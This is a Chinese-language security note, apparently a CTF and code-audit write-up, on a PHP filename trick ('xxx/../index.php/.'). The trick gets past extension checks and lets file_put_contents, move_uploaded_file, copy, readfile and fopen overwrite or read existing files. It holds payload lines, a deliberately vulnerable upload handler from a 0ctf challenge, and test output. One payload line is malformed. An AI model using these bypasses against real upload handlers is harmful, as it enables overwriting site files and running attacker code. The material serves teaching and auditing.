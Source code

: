 > move_uploaded_file, file_put_contents,copy，readfile,file,fopen都存在的一种特殊文件名的写入技巧

```
$name = "index.php/.";
$name1 = "xxx/../index.php/.";
```
对于这两种文件名，如果我们用is_file函数判断，发现都是false,即判断为不是文件或文件不存在。

但上面这些函数判断的时候会认为$name文件不存在，但$name1文件存在,从而可能导致一些特殊的文件读取或者文件写入的漏洞。

### file_put_contents()
```
$name = $_GET['name'];
$content = $_GET['content'];
$filename = $_FILES['file']['name'];
if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
	die();
}
file_put_contents($name,$content);
```
paylaod: 
```
    file_put_contents("1.php/../1.php", 'fff');
    file_put_contents("2.php/.", 'fff'); //写入新文件，无法覆盖
    file_put_contents(""xxx/../index.php/."fff"); //可以覆盖旧文件
```

### move_uploaded_file()

0ctf 上面的一道题目
```
  case 'upload':
    if (!isset($_GET["name"]) || !isset($_FILES['file'])) {
      break;
    }
    echo 'upload file';
    if ($_FILES['file']['size'] > 100000) {
      clear($dir);
      break;
    }

    $name = $dir . $_GET["name"];
    if (preg_match("/[^a-zA-Z0-9.\/]/", $name) ||
      stristr(pathinfo($name)["extension"], "h")) {
      break;
    }
    echo 'pass one';
    move_uploaded_file($_FILES['file']['tmp_name'], $name);
```

pathinfo 函数可以用`/.` 来绕过，取出来的后缀为空

move_uploaded_file函数无法写入`index.php/.`文件，执行函数报错但可以写入`xxx/../index.php/.` 这样来绕过重写index.php


测试demo:
```
<?php
$name = "index.php/."; //覆盖index.php失败，报warning
$name1 = "xxx/../index.php/."; //覆盖index.php成功
move_uploaded_file($_FILES['file']['tmp_name'], $name1);  
?>

<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
    <form action="#" method="post" enctype="multipart/form-data">
        <input type="file" name="file">
        <input type="submit">
    </form>
</body>
</html>
```
> 注意move_uploaded_file 会判断是否为post上传的文件。

### copy
php.net上的解释

    bool copy ( string $source , string $dest [, resource $context ] )
将文件从 source 拷贝到 dest。如果 dest 是一个 URL，则如果封装协议不支持覆盖已有的文件时拷贝操作会失败。

> 如果目标文件已存在，将会被覆盖。

test.php
```
$name = "./index.php";
$dest = "xxx/../ttt.php/.";
copy($name,$dest);
```

### readfile
```
$name = "index.php/.";
$name1 = "xxx/../index.php/.";
readfile($name);
readfile($name1);

>>>
PHP Warning:  readfile(index.php/.): failed to open stream: No such file or directory in /mnt/hgfs/F/sublime/php/audit/4/file_put_content.php on line 8
ffffffffffff
```

### file函数
同readfile函数
```
$name = "index.php/.";
$name1 = "xxx/../index.php/.";
file($name1); //$name 读文件失败

array(1) {
  [0]=>
  string(12) "ffffffffffff"
}
```

### fopen函数
```
$name = "index.php/.";
$name1 = "xxx/../index.php/.";
$f = fopen($name,'w');fwrite($f,'ffff'); //报错
$f = fopen($name1,'w');fwrite($f,'ffffffffffff'); //写入成功
```

## 简要分析
通过之前大佬对file_put_contents函数的分析`http://wonderkun.cc/index.html/?paged=5`可知php源码的`_php_stream_open_wrapper_ex`函数存在问题，而上面这些函数都直接或间接调用了这个函数，导致了这种文件名可以识别成功。

> move_uploaded_file 和copy函数调用了`php_copy_file_ctx`函数，fopen调用了`php_if_fopen` 这两个函数内部是调用了`_php_stream_open_wrapper_ex`了的。

